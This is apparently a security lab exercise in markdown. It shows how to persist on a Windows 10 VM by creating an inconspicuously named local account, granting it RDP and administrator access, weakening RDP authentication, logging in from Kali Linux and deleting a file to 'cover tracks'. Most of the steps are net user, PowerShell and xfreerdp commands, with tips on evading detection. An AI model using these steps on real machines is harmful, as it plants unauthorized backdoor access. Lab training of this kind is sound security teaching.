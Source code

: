 # Persist On A Windows Machine With A Malicious User Account
Creating a malicious local account is a simple way to install a backdoor, often going unnoticed in poorly managed networks. Even if detected, it may remain due to concerns over breaking functionality. Skilled attackers may avoid giving the account admin rights, opting instead to plant a privilege escalation vulnerability for future use

## Tasks
- Create a user with an inconspicuous name that would seamlessly blend into an organization in a VM
- Initiate an RDP connection to the target system from a separate machine, utilizing the malicious account's credentials to showcase successful access
- Navigate the system's directories to emphasize the subtle nature of the malicious account's presence and the potential challenges in detection
- Generate a dummy file in a sensitive directory to simulate a security breach, demonstrating how a malicious actor might misuse this access for unauthorized file manipulation
- Show how the malicious account can be used to cover tracks, such as deleting the dummy file

## Solutions With Scripts
1. Open PowerShell as Administrator in Windows 10 VM
2. Add a user with a non-suspicious name such as `svc_network` or `backup_admin`
   ```
   net user svc_network password123 /add
   ```
3. Add the user to a specific group like "Users" and "Remote Desktop Users". Avoid giving it administrative privileges to make the account less suspicious
   ```
   net localgroup Users svc_network add
   net localgroup "Remote Desktop Users" svc_network /add
   ```
   To confirm that `svc_network` user has been added into "Remote Desktop Users" group, go to Control Panel > System and Security. Under System, click Allow remote access. A System Properties window will appear. Click Select Users... and confirm that svc_network is in the allowed list <br/>
   ![image](https://github.com/user-attachments/assets/82b445d6-d9ca-4ccb-91cd-0af5450bb15d)
   However, to simulate a security breach, the created user must have admin privileges. To add `svc_network` to the Administrators groups, run both commands in Windows 10 VM
   ```
   Add-LocalGroupMember -Group "Administrators" -Member "svc_network"
   Get-LocalGroupMember -Group "Administrators"
   ```
5. To enable RDP (Remote Desktop Protocol) on Windows 10 VM, go to Settings > System > Remote Desktop (left panel). Turn on Enable Remote Desktop. In the Advanced settings,  uncheck the Network Level Authentication as shown below
   ![image](https://github.com/user-attachments/assets/2775be67-8ec5-46b1-842a-2b6fefe6dc84)
6. Allow RDP through Windows Firewall and ensure that Remote Desktop is checked for both private and public networks
7. To initiate an RDP connection from Kali Linux, install `xfreerdp` using the following commands
   ```
   sudo apt update
   sudo apt install freerdp2-x11
   ``` 
8. Enable the default port for RDP (3389) in Kali Linux using the each of the commands below
   ```
   sudo ufw status
   sudo ufw allow 3389/tcp
   sudo ufw reload
   sudo ufw status
   ```
9. Use the malicious account credentials (`svc_network`) to connect to Windows 10 VM via RDP
   ```
   sudo xfreerdp /u:svc_network /p:password123 /v:192.168.1.21 /dynamic-resolution /cert:ignore /sec:tls
   ```
   The RDP connection would begin as shown below
   ![image](https://github.com/user-attachments/assets/4a37a8e3-438a-49dc-830e-201743dfa613)
10. Create a dummy file in a sensitive directory like C:\Program Files or C:\Windows\Temp
    ```
    New-Item -Path "C:\Program Files\dummyfile.txt" -ItemType File
    ```
11. To cover up the tracks, delete the dummy file
    ```
    Remove-Item -Path "C:\Program Files\dummyfile.txt"
    ```
12. Close the RDP connection by logging out of the RDP session from Kali Linux by pressing Ctrl+C to end the xfreerdp session
13. To remove the created account in Windows 10 VM, run the command in PowerShell opened with administrator privileges
    ```
    Remove-LocalUser -Name "username"
    ```

